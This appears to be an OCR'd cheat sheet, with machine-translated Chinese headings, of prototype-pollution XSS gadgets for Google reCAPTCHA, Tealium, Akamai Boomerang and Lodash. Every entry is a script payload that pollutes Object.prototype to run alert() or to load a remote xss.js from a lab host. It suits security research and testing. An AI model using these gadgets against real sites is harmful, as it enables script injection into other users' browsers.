 #### **谷歌 reCAPTCHA**

```
<script>

Object.prototype.srcdoc=['<script>alert(1)<\/script>']

</script>

<div class="g-recaptcha" data-sitekey="your-site-key"/>
```

```
<script>

Object.prototype.hif = ['javascript:alert(document.domain)'];

</script>
```

#### **Tealium 通用标签**

```
<script>

Object.prototype.attrs = {src:1};

Object.prototype.src='https://portswigger-labs.net/xss/xss.js'

</script>
```

#### **阿卡迈飞镖**

```
<script>Object.prototype.BOOMR = 1;

Object.prototype.url='https://portswigger-labs.net/xss/xss.js'</script>
```

#### **洛达什**

```
<script>

Object.prototype.sourceURL = '\u2028\u2029alert(1)'

</script>

<script>

_.template('test')

</script>
```
